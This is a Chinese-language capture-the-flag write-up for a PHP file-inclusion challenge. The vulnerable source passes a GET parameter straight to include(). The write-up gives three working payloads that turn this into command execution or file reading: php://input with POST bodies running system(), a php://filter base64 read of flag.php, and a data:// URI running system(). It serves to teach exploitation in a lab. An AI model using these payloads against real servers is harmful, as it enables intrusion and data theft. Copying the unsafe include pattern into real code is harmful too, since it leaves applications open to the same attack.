





```
 <?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 10:52:43
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-16 10:54:20
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['file'])){
    $file = $_GET['file'];
    include($file);
}else{
    highlight_file(__FILE__);
} 
```

分析源码

get传入file

include包含


### 第一种

php://input实现命令执行

GET

```
?file=php://input
```

POST

```
<?php system("ls");?>
```




读取flag.php

GET

```
?file=php://input
```

POST

```
<?php system("tac flag.php");?>
```




### 第二种

利用php://filter读flag.php

```
?file=php://filter/convert.base64-encode/resource=flag.php
```






### 第三种

利用data://text/plain实现命令执行

```
?file=data://text/plain,<?php system("tac flag.php");?>
```




